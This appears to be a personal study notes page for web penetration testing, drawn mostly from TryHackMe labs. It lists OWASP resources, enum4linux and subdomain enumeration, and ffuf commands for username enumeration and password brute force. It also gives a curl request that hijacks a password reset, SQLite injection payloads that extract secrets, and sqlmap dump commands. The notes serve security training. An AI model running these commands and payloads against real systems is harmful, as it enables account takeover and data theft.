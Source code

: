 # R

* Remember for web/general/security

<hr class="sep-both">

## OWASP

* https://owasp.org/www-project-top-ten/
* Juiceshop
* https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html
* https://github.com/OWASP/wstg
* https://wiki.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents
* https://github.com/OWASP/CheatSheetSeries
* https://www.zaproxy.org/
* https://github.com/OWASP/Amass

<hr class="sep-both">

## enum4linux

![Usage: Enumerating Information](https://img.shields.io/badge/usage-Enumerating%20Information-ffd700)

I don't know if there is still an `enum.exe`, because I can't find it, but you can use the tool [enum4linux](https://github.com/CiscoCXSecurity/enum4linux) for enumerating information from Windows, and Samba hosts.

```bash
$ ./enum4linux.pl <options> <ip>
# -U : list of users
# -M : list of devices
# -S : list of shares
# -o : os data
# -i : printer data
# -v : verbose
```

<hr class="sep-both">

# Notes

* https://tryhackme.com/resources/blog/online-training-for-careers
* https://tryhackme.com/resources/blog/cyber-security-awareness-month
* There are websites on the Internet that allow you to check the reputation of an IP address to see whether it's malicious or suspicious.
  * AbuseIPDB
  * Cisco Talos Intelligence
* https://www.virustotal.com/gui/home/upload
* https://www.hybrid-analysis.com/
* https://otx.alienvault.com/ (An open-source threat tracking system)

<hr class="sep-both">

# Learn again

* netdiscover
* https://www.sans.org/cyberaces/
* https://crackstation.net/
* echo xxx name >> /etc/hosts 
* nmap xxx
  * Service Info: Host: Os:
* https://msrc.microsoft.com/update-guide/en-US/vulnerability/CVE-2019-1388

<hr class="sep-both">

# Web

**Subdomain** enumeration is the process of finding valid subdomains for a domain, but why do we do this? We do this to expand our attack surface to try and discover more potential points of vulnerability.

* Brute Force
  * https://www.kali.org/tools/dnsrecon/ & https://github.com/darkoperator/dnsrecon
  * dnsrecon -t brt -d xxx.thm
* OSINT (Open-Source Intelligence)
  * https://crt.sh/
  * https://ui.ctsearch.entrust.com/ui/ctsearchui
  * -site:www.domain.com site:*.domain.com
  * Sublist3r https://github.com/aboul3la/Sublist3r
* Virtual Host
  * /etc/hosts file (or c:\windows\system32\drivers\etc\hosts file for Windows users)
  * Because web servers can host multiple websites from one server when a website is requested from a client, the server knows which website the client wants from the Host header.
  * `ffuf -w /usr/share/seclists/Discovery/DNS/namelist.txt -H "Host: FUZZ.acmeitsupport.thm" -u http://10.10.126.102 -fs 2395`
  * The above command uses the -w switch to specify the wordlist we are going to use. The -H switch adds/edits a header (in this instance, the Host header), we have the FUZZ keyword in the space where a subdomain would normally go, and this is where we will try all the options from the wordlist.
  * Because the above command will always produce a valid result, we need to filter the output. We can do this by using the page size result with the -fs switch. Edit the below command replacing {size} with the most occurring size value
* Errors in web application
  * ex: signin username taken
    * ffuf -w /usr/share/seclists/Usernames/Names/names.txt -X POST -d "username=FUZZ&email=x&password=x&cpassword=x" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.136.157/customers/signup -mr "username already exists"
    * -X argument specifies the request method, this will be a GET request by default, but it is a POST request in our example. The -d argument specifies the data that we are going to send. In our example, we have the fields username, email, password and cpassword. We've set the value of the username to FUZZ. In the ffuf tool, the FUZZ keyword signifies where the contents from our wordlist will be inserted in the request. The -H argument is used for adding additional headers to the request. In this instance, we're setting the Content-Type to the webserver knows we are sending form data. The -u argument specifies the URL we are making the request to, and finally, the -mr argument is the text on the page we are looking for to validate we've found a valid username.
    * ffuf -w valid_usernames.txt:W1,/usr/share/seclists/Passwords/Common-Credentials/10-million-password-list-top-100.txt:W2 -X POST -d "username=W1&password=W2" -H "Content-Type: application/x-www-form-urlencoded" -u http://10.10.136.157/customers/login -fc 200
    * we have to specify our own FUZZ keyword. In this instance, we've chosen W1
    * -fc code: filter codes that are not code
* Logic Flaw
  * when someone (hacker or any) take a path different than intended
  * $_REQUEST=$_GET+$_POST. If both have a key, then post is used.
  * GET url with non-injectable parameter (verified)
  * POST URL in which you can override the value of the non-injectable parameter
  * curl 'http://10.10.136.157/customers/reset?email=robert@acmeitsupport.thm' -H 'Content-Type: application/x-www-form-urlencoded' -d 'username=robert&email=hacker@hack.ca'
  * Common encoding types are base32 which converts binary data to the characters A-Z and 2-7, and base64 which converts using the characters a-z, A-Z, 0-9,+, / and the equals sign for padding.
  * https://www.base64encode.org/
  * Cookies (encoded/raw/ff)
  * https://tryhackme.com/room/authenticationbypass
  * https://tryhackme.com/room/subdomainenumeration

<hr class="sep-both">

# SQL

* Input Box String: usual
* Input Box Non-String: when there is no quotes: `'' OR 1=1-- -`
* If you have trouble via a form (client-side verification) intercept the request
* Look into the field name to guess column names
* Update
  * none',nickName='lol
* Version
  * (SELECT banner FROM v$version)
  * sqlite_version()
    * SELECT group_concat(tbl_name) FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'
    * ',nickName=(SELECT group_concat(tbl_name, '<br>') FROM sqlite_master WHERE type='table' and tbl_name NOT like 'sqlite_%'),email='
    * ',nickName=(SELECT sql FROM sqlite_master WHERE type!='meta' AND sql NOT NULL AND name ='secrets'),email='
    * ',nickName=(SELECT group_concat(id || ":" || author || ":" || secret, '<br>') FROM secrets),email='
* https://www.kirsle.net/wizards/flask-session.cgi
* https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin"
  --level=5 --risk=3 --dbms=sqlite --technique=b --dump
* sqlmap -u http://10.10.55.189:5000/challenge3/login --data="username=admin&password=admin" --level=5 --risk=3 --dbms=sqlite --technique=b --dump --threads 10
* https://tryhackme.com/room/sqlilab
* See tamper script

<hr class="sep-both">

## Burp

* take a request captured in the Proxy, edit it, and send the same request repeatedly as many times as we wish
* tabs per request